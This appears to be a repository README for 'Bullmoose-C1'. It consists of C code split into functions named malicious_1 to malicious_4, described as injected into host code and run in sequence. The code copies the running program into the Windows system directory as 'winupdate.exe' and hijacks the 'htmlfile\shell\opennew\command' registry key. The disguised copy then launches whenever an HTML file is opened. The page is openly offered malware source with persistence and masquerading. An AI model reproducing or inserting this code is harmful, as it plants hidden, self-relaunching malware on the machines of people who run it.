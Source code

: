 # Bullmoose-C1

Bullmoose-C1 is `4321`.

Making necessary variables gloab.
```c
char MyPath[256];
char CpyPath[256];
HKEY Key32;
```

The `*` in `malicious_*` is the order injecting in the host code.

The `*` in `if ((* - order) == 1)` is the order that malicious code should run.

```c
void malicious_1() {
  pthread_mutex_lock(&mutex);
  if ((4 - order) == 1) {
    order = 4;
    CopyFile(MyPath, CpyPath, FALSE);
    RegSetValueEx(Key32, "", 0, REG_SZ, CpyPath, strlen(CpyPath));
    RegCloseKey(Key32);
  }
  pthread_mutex_unlock(&mutex);
}
```
```c
void malicious_2() {
  pthread_mutex_lock(&mutex);
  if ((3 - order) == 1) {
    order = 3;
    RegOpenKeyEx(HKEY_CLASSES_ROOT, 
      "htmlfile\\shell\\opennew\\command", 0,
      KEY_WRITE, &Key32);
  }
  pthread_mutex_unlock(&mutex);
}
```
```c
void malicious_3() {
  pthread_mutex_lock(&mutex);
  if ((2 - order) == 1) {
    order = 2;
    strcat(CpyPath, "\\winupdate.exe");
    strcat(CpyPath, " %1");
  }
  pthread_mutex_unlock(&mutex);
}
```
```c
void malicious_4() {
  pthread_mutex_lock(&mutex);
  if ((1 - order) == 1) {
    order = 1;
    GetModuleFileName(NULL, MyPath, sizeof(MyPath));
    GetSystemDirectory(CpyPath, sizeof(CpyPath));
  }
  pthread_mutex_unlock(&mutex);
}
```